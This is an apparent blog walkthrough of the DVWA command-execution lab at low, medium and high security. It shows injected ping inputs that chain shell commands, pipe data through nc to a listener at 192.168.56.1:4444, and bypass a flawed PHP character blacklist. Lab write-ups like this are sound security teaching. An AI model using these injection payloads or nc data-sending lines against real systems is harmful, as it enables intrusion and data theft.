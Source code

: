 ```yaml
---
layout: post
title:  "DVWA Command Execution"
subtitle: "Damn Vulnerable Web Application"
date:   2017-02-18 13:00:00 -0500
author: "coastal"
header-img: "images/site-resources/dvwa-header.jpg"
---
```

# Security: Low

Starting off on the 'low' security setting, let's try command injection/execution with our given prompt. So we are given an input form for pinging an IP address. Let's see what happens when we enter 8.8.8.8 (Google's DNS servers):

```
POST /dvwa/vulnerabilities/exec/ HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.101/dvwa/vulnerabilities/exec/
Cookie: security=low; PHPSESSID=af2qff46iqe3c71vvn3l7tmde1; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

ip=8.8.8.8&submit=submit
```

First we generate this request, and the response:

<img src="{{ site.baseurl }}/images/dvwa/02_command_execution/google-dns-ping.jpg">

Hmm okay, that doesn't tell us much. And there is no response on a failed command (which we test by throwing 'fail') at it. Let's see if we can really naiively attach an extra command on by ending our ping command and adding another command on there:

```
8.8.8.8; echo test;
```

<img src="{{ site.baseurl }}/images/dvwa/02_command_execution/ping-test-append.jpg">

Alright! Looks like we can add commands on the end of our ping. How about if we ```nc``` some data back to our comp:

```
8.8.8.8; echo pwnd | nc 192.168.56.1 4444;echo sent;
```

<img src="{{ site.baseurl }}/images/dvwa/02_command_execution/ping-rev-shell.jpg">

And boom, we've pwnd this input.

# Security: Medium

Alright, upping the security level, we try the same command as before:

```
8.8.8.8; echo test
```

And fail. Well it's likely that they added some filtering to the input here. One common set of filters is to remove the ```&``` and ```;``` characters to prevent command chaining. However, we can try some logic gate manipulation to get our command injection to work. Looking at this chaining logic:

```
A; B    Run A and then B, regardless of success of A
A && B  Run B if A succeeded
A || B  Run B if A failed
```

We see that we can force our command to run if we can cause the ping command to fail. Let's give it a shot:

```
fail || echo pwnd | nc 192.168.56.1 4444
```

<img src="{{ site.baseurl }}/images/dvwa/02_command_execution/medium-injection.jpg">

Got 'em again!

# Security: Hard

The 'High' level imposes the following restrictions:

```
// Get input
$target = trim($_REQUEST[ 'ip' ]);
// Set blacklist
$substitutions = array(
	'&'  => '',
	';'  => '',
	'|  ' => '',
	'-'  => '',
	'$'  => '',
	'('  => '',
	')'  => '',
	'`'  => '',
	'||' => '',
);
// Remove any of the charactars in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

```trim``` This function returns a string with whitespace stripped from the beginning and end of ```str```

```str_replace``` Replace all occurrences of the search string with the replacement string

```
mixed str_replace ( mixed $search , mixed $replace , mixed $subject [, int &$count ] )
```

One thing we can pick out is a failure in the key's of ```substitutions```. The ```'| '``` key should be ```'|'```. This means that only pipes that are appended with a space match the blacklist. Let's try to inject without a space following our pipe:

```
8.8.8.8|echo pwnd
```

<img src="{{ site.baseurl }}/images/dvwa/02_command_execution/high-pwnd.jpg">

And we've got it!